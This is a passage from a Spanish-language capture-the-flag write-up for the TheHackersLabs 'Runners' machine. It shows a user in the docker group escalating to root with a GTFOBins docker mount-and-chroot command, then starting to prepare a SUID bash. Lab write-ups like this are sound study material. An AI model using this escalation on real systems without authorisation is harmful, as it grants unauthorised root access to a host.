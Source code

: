 Este usuario tampoco tendrá privilegios, pero si revisamos a qué grupos pertenece, encontraremos que está dentro del grupo **Docker**:
```bash
elliot@TheHackersLabs-Runners:~$ id
uid=1000(elliot) gid=1000(elliot) groups=1000(elliot),46(plugdev),110(docker)
```
Gracias a esto, tenemos una forma de escalar privilegios.

La encontraremos en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/docker/" target="_blank">GTFOBins: docker</a>

Utilizaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-runners/Captura14.png">
</p>

Ejecutémoslo sin él **sudo**:
```bash
elliot@TheHackersLabs-Runners:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
9824c27679d3: Pull complete 
Digest: sha256:4bcff63911fcb4448bd4fdacec207030997caf25e9bea4045fa6c8c44de311d1
Status: Downloaded newer image for alpine:latest
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@782203de7ba7:/# whoami
root
```
Excelente, creamos una montura completa de la raíz.

Esto nos permite realizar cambios en el contenedor que se verán reflejados en la máquina principal.

Entonces, podemos darle **permisos SUID** a la **Bash**.

Sal un momento del contendor y revisa los permisos de la **Bash**:
```bash
elliot@TheHackersLabs-Runners:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
